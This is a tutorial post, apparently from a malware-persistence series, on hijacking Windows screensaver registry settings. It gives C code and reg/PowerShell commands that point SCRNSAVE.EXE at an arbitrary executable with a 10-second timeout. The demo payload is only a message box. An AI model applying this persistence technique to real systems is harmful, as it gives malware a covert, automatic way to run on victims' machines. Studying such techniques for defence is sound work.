

# 05 persistence - screensaver hijacking

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    
    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - set the app path to run.    

Let's say we have a simple *"malware"*:    

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    


And save it to folder `Z:\\`.     

Then, let's create a script `pers.c` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows low level persistense via screensaver
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. 

Let's compile our `pers.c` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

First of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

   

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

    

Everything is worked perfectly :)    

Of course, egistry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d Z:\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'Z:\hack.exe'
```
